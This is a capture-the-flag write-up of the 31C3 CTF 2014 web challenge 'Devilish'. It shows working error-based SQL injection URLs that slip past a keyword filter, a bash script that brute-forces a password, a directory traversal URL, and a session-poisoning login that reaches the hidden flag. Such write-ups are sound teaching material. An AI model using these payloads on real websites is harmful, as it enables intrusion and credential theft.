


# 31C3 CTF 2014: Devilish

**Category:** web
**Points:** 30
**Solves:** 24
**Description:**

> It’s some devilish community public portal, we’re pretty sure there’s something else out there, a private portal maby, we’d like to know the secret behind it.
> <http://188.40.18.70/>

## Write-up

_by boogy_

The web page reveals a nice vampire-style web page. After some research we can see that there is a SQL injection vulnerability in the `PROFILE` endpoint.

```
http://188.40.18.70/PROFILE/55\/||extractvalue(3,concat(0x3a,(select%0bconcat_ws(0x3a3a,id_user,Us3rN4m3)%0bfrom%0busers%0blimit%0b0,1)))--%0b
```

The font used by the web page is an icon font, so you need to view the HTML source all the time to see the error message from the SQL injection. One of our team members had the idea to disable the `gfx.downloadable_fonts.enabled` option in Firefox through `about:config`. Here’s the result before changing the setting:



And here is the same page after setting `gfx.downloadable_fonts.enabled` to `false`:



Better, isn’t it?

OK, so now we know where the injection is and we can run commands. But there’s an annoying filter that prevents us from enumerating columns: things like `information_schema`, `table`, `or`, `union` are all filtered, so we need to find a way around it. What we need is the password column name to be able to log in.

To enumerate the columns without the above keywords we can do error-based SQL injection based on a ‘duplicate keys’ error. This will enumerate the columns for us. So the final exploit for the SQL column problem is:

```
http://188.40.18.70/PROFILE/55%5C/||extractvalue%28null,concat%280x3a,%28select%09*%09from%28select%09*%09from%09users%09as%09a%09join%09users%09as%09b%09using%28id_user,Us3rN4m3,Em4iL4dR3Szz,S4cR3dT3xT0Fm3,MyPh0N3NumB3RHAHA,Addr3Zz0F_tHi5_D3wD,CHAR_LOL%29%29as%09x%29%29%29--%0B
```

This gives us:

```
Duplicate column name 'P4sWW0rD_0F_M3_WTF'
```

This is the column we need to extract the password from. So let’s do that:

```
http://188.40.18.70/PROFILE/55%5C/||extractvalue%283,concat%280x7e,%28select%09concat_ws%280x3a,Us3rN4m3,P4sWW0rD_0F_M3_WTF%29%09from%09users%09limit%091,1%29%29%29--%09
```

This gives us:

```
XPATH syntax error: '~Dracula:ZD456ddssd65456lksndoiN'
```

But when we try to log in with the password it doesn’t work. Maybe the error does not show all the chars from the password? We need to bruteforce the rest of the password with `locate()`. Here is a quick script that does just that:

```bash
#!/usr/bin/env bash
str='ZD456ddssd65456lksndoiNzd654sdsd'
while :; do
  a=0;
  echo "New string: $str";
  for i in {a..z}; do
    wget --quiet -O $i 'http://188.40.18.70/PROFILE/55%5C/||extractvalue%283,concat%280x3a,%28select%0Blocate("'$str$i'",P4sWW0rD_0F_M3_WTF)%0Bfrom%0Busers%0Blimit%0B1,1%29%29%29--%0B'
    if grep ":1" $i; then
      str=$str$i
      a=1;
      echo "$str";
    fi;
  done;
  if [ $a==1 ]; then
    for i in {0..9}; do
      wget --quiet -O $i 'http://188.40.18.70/PROFILE/55%5C/||extractvalue%283,  concat%280x3a,%28select%0Blocate("'$str$i'",  P4sWW0rD_0F_M3_WTF)%0Bfrom%0Busers%0Blimit%0B1,1%29%29%29--%0B'
      if grep ":1" $i; then
        str=$str$i
        a=1
        echo "$str";
      fi;
    done;
  fi;
  if [ $a -eq 0 ]; then
    echo "PWD:$str"
    exit;
  fi;
done;
```

This gives us Dracula’s full account password:

```
Username: Dracula
Password: ZD456ddssd65456lksndoiNzd654sdsd654zd65s4d56489zdz
```

After logging in, we found a directory traversal vulnerability that lets us understand that there is another site on the server as mentioned in the challenge description. This source code is different from the original site in `/var/www/html`. The URL
<http://188.40.18.70/ACCESS?action=browse&dir=../../../../../home/devilish.local> reveals the following files:

```
.htaccess
conf.php
images
index.php
__WebSiteFuckingPrivateContentNotForPublic666+666
style.css
```

We can also see the code source of some pages. For example, <http://188.40.18.70/__WebSiteFuckingPrivateContentNotForPublic666/LOGIN_HEAD> reveals the following code:

```php
<?php
 if(@$_SESSION['user']){header("location: ".$LINK);die();}
 if(isset($_POST['user'])){
  if(mysqli_num_rows(mysqli_query($con,"SELECT * FROM users WHERE Us3rN4m3='".mysqli_real_escape_string($con,@$_POST['user'])."' AND P4sWW0rD_0F_M3_WTF='".mysqli_real_escape_string($con,@$_POST['pass'])."' "))>0){
   $_SESSION=$_POST;
   header("location: ".$LINK);die();
  }else{
   $Error=1;
  }
 }
?>
```

And here is the `LOGIN_HEAD` from `devilish.local`:

```php
<?php
  if (@$_SESSION['is_ExclusiveMember']){header("location: ".$LINK);die();}
  if (isset($_POST['user'])){
    if (@$_POST['user']===$uLOGIN && @$_POST['pass']===$uPASSWORD){
      $_SESSION['is_ExclusiveMember']=1;
      header("location: ".$LINK);
      die();
    } else{
      $Error=1;
    }
  }
?>
```

We somehow need to access the second web site. The easiest way to do this is by adding this line to your local `/etc/hosts` file:

```bash
188.40.18.70 devilish.local
```

Now you can browse to <http://devilish.local/>. The source code for its `INDEX` page contains the following:

```php
<?php echo($logged?"Here's your secret ".$flag."":"Login to access the secret")?>
```

However, this website lacks login functionality. Maybe the two websites use the same session? Let’s go back to the first site and log in but this time we send the parameter `is_ExclusiveMember=1` in the `POST` request. Remember the code above that showed us:

```php
$_SESSION=$_POST;
```

So we use Firefox’s [Firefox Hackbar](https://addons.mozilla.org/fr/firefox/addon/hackbar/) and send this:

```
url: http://188.40.18.70/LOGIN
post: is_ExclusiveMember=1&pass=ZD456ddssd65456lksndoiNzd654sdsd654zd65s4d56489zdz&user=Dracula
```

Once we’re logged in on the first website, visiting the second website reveals a message:

```
This is the private Portal of us

If you are accessing this page this means you are one of the very few exclusive members who are allowed to come in here!

Here's your secret
31c3_Th3r3_4R3_D3v1li5h_Th0ght5_ev3N_1N_th3_M0sT_4ng3l1c_M1nd5
```

The flag is `31c3_Th3r3_4R3_D3v1li5h_Th0ght5_ev3N_1N_th3_M0sT_4ng3l1c_M1nd5`.

## Other write-ups and resources

* <http://0xboogy.blogspot.com/2014/12/31c3ctf-devilish-writeup.html>
* <http://l4w.io/2014/12/31c3-ctf-writeups/>
* <http://kitctf.de/writeups/31c3-ctf/devilish/>
